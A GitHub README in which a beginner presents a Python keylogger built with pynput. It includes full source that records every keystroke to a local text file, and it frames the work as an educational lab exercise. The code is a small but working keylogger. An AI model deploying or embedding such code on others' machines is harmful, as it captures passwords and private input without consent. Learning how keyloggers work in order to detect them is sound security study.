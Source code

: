 # KeyLogger
Excited to share my first-ever cybersecurity project: a keylogger developed in Python using the pynput library! 🎉 As part of my journey to deepen my understanding of cybersecurity, I built this in a controlled virtual environment to explore how such tools work, analyze their behavior, and develop detection/mitigation strategies.

Key takeaways from this project:

Gained hands-on experience with Python programming and system monitoring.
Learned to simulate and analyze malicious software behavior ethically.
Created a detection script to identify keylogger activity, enhancing my defensive skills.
This was a safe, educational exercise conducted solely on my own systems, with a focus on understanding threats to better protect against them.


Here below is the code, since I'm new to GitHub I wasn't able to link the code file hence pasted the code below. Promise I will learn by the time of my next project.

_________________________________________________________________________________________________________________________________________________________________________________________________________________________________________
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("KeyFile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")


if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
